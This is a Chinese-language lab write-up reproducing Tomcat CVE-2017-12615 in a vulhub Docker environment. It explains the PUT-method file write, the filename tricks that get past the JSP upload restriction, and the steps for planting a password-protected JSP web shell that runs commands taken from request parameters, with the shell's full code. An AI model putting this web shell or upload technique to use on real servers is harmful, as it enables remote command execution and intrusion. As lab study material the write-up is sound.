




# 漏洞复现——Tomcat任意文件写入CVE-2017-12615

# 一、漏洞原理

1. 由于配置不当，将配置文件conf/web.xml中的readonly设置为了false（默认为true），导致用户可以使用PUT方法上传任意文件，并可执行任意代码，但限制了jsp后缀文件的上传，但可以利用文件系统特性进行绕过。

2. 在windows服务器下，可使用空格、NTFS流（文件名后加::$DATA）、“/”绕过。linux下也可通过“/”来绕过限制。

3. 影响版本：7.0.0-7.0.81

# 二、漏洞复现

1. vulhub/tomcat/CVE-2017-12615目录下docker启动环境

   ``` shell
   sudo docker-compose up -d
   ```

2. 启动后访问http://靶机IP:8080，使用BurpSuite抓包，发现是GET请求

3. 修改数据包为PUT请求，测试是否可以写入文件，尝试写入一个test.txt文件，查看响应数据包

   

4. 返回状态码201，访问http://靶机IP:8080/test.txt，页面显示内容为test，创建test.txt文件并写入内容成功

   

5. 尝试使用PUT方法写入一个jsp马，代码如下

   ``` java
   <%
       if("thisispasswd".equals(request.getParameter("pwd"))){
           java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
           int a = -1;          
           byte[] b = new byte[1024];          
           out.print("<pre>");          
           while((a=in.read(b))!=-1){
               out.println(new String(b));          
           }
           out.print("</pre>");
       }
   %>
   ```

6. 使用“/”进行绕过，响应状态码201，写入文件成功

   

7. 访问jsp马文件，成功执行命令

   